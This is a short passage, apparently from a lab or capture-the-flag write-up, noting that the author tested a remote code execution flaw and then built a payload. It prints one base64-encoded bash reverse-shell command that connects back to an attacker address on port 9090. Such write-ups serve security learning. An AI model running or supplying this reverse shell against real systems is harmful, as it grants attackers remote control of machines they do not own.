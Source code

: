 <img src="./img/log.png"  width="650"/>

So i tested the RCE

<img src="./img/test.png"  width="650"/>

and so prepared a payload for a rev shell

`echo "bash -c 'exec bash -i &>/dev/tcp/10.10.14.195/9090 <&1'" | base64`

